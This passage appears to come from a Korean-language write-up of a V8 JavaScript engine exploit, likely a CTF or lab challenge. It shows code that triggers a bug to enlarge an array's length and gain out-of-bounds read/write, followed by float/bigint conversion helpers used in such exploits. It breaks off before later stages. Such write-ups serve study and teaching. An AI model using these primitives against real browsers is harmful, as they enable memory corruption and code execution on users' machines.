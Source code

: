 ## Exploitation

### Generate OOB array

```js
// flags: --allow-natives-syntax --shell

let oob_arr = [1.1];

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${oob_arr.length}`);

% DebugPrint(oob_arr);
```

![image](https://github.com/user-attachments/assets/03d79c80-8309-44ae-943b-1e056fc4a6be)

![image](https://github.com/user-attachments/assets/62d5ee4d-8b2d-401d-aec1-29f8a8841674)

![image](https://github.com/user-attachments/assets/5e3b1b65-b211-4e01-bcc3-ea0dc0809102)

`oob_arr`은 한 개의 double을 저장할 수 있는 공간만 가지고 있지만, 버그를 발생시켜 length를 증가시켰기 때문에 자유로운 OOB read/write가 가능하다.

![image](https://github.com/user-attachments/assets/64e340e2-ebc8-4d4e-901d-9ba923a6d921)

### Helper functions

```js
let fi_buf = new ArrayBuffer(8); // shared buffer for float and bigint
let f_buf = new Float64Array(fi_buf); // buffer for float
let i_buf = new BigUint64Array(fi_buf); // buffer for bigint

// convert float to bigint
function ftoi(f) {
    f_buf[0] = f;
    return i_buf[0];
}

// convert bigint to float
function itof(i) {
    i_buf[0] = i;
    return f_buf[0];
}

// convert (big)int to hex string
function hex(i) {
    return `0x${i.toString(16)}`;
}
```

